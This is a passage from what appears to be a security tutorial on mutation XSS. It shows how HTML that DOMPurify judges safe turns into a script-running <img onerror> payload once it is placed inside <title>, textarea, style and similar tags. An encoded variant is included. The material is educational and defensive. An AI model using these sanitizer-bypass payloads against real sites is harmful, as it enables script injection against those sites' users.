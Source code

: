 <pre class="language-html" data-title="Browser DOM"><code class="lang-html">&#x3C;title>
<strong>    &#x3C;p id="&#x3C;/title>&#x3C;img src=x onerror=alert()>">&#x3C;/p>
</strong>&#x3C;/title>
</code></pre>

Perhaps surprisingly, it is **parsed differently** now that it is inside of the `<title>` tag. Instead of a simple `<p>` tag with an `id=` attribute, this turned into the following after mutation:

{% code title="Browser DOM after mutation" %}
```html
<html><head><title>
    &lt;p id="</title></head><body><img src="x" onerror="alert()">"&gt;<p></p>
</body></html>
```
{% endcode %}

See what happened here? It suddenly closed with the `</title>` tag and started an `<img>` tag with the malicious `onerror=` attribute, executing JavaScript, and causing XSS! This means in the following example, `alert(1)` fires but `alert(2)` does not:

<pre class="language-html" data-title="Demo"><code class="lang-html">&#x3C;title>
<strong>    &#x3C;p id="&#x3C;/title>&#x3C;img src=x onerror=alert(1)>">&#x3C;/p>
</strong>&#x3C;/title>
<strong>&#x3C;p id="&#x3C;/title>&#x3C;img src=x onerror=alert(2)>">&#x3C;/p>
</strong></code></pre>

DOMPurify does not know of the `<title>` tag the application puts it in later, so it can only say if the HTML is safe on its own. In this case, it is, so we bypass the check through Mutation XSS.&#x20;

<figure><img src="../.gitbook/assets/image (1).png" alt=""><figcaption><p>Example from <a href="https://mizu.re/post/intigriti-october-2023-xss-challenge">mizu.re's writeup</a> showing the difference between the browser and DOMPurify</p></figcaption></figure>

A quick for-loop later we can find that this same syntax works for all these tags:\
`iframe`, `noembed`, `noframes`, `noscript`, `script`, `style`, `textarea`, `title`, `xmp`

These types of Mutation XSS tricks are highly useful in bypassing simpler sanitizer parsers because DOMPurify had to really put in some effort to get this far. Writing payloads that put the real XSS in an attribute and use mutation to escape out of it can be unexpected and the developers may not have thought about the possibility, and only use some regexes or naive parsing.&#x20;

Where this gets really powerful is using HTML encoding if the sanitizer parses the payload, and then reassembles the HTML afterward, for example:

<pre class="language-html"><code class="lang-html"><strong>&#x3C;title>&#x3C;p id="&#x26;lt;&#x26;sol;title&#x26;gt;&#x26;lt;img src&#x26;equals;x onerror&#x26;equals;alert&#x26;lpar;&#x26;rpar;&#x26;gt;">&#x3C;/p>&#x3C;/title>
</strong>&#x3C;!-- could be serialized back into this Mutation XSS -->
&#x3C;title>&#x3C;p id="&#x3C;/title>&#x3C;img src=x onerror=alert()>">&#x3C;/p>&#x3C;/title>
</code></pre>
